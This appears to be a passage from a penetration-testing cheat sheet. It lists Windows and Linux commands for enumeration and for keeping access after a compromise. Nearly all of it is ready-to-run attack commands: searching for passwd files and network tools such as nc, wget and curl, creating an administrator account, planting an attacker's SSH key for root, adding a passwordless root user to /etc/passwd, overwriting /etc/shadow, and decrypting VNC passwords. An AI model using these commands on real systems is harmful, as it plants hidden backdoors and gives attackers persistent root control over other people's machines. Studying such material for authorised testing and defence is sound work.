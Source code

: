 ```bash
dir /A:H /s "c:\program files"
```

### General File Search

```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access

### Browsing Registry Hives

```bash
hivesh /registry/file
```

### Decrypting VNC Password

```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys

```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```
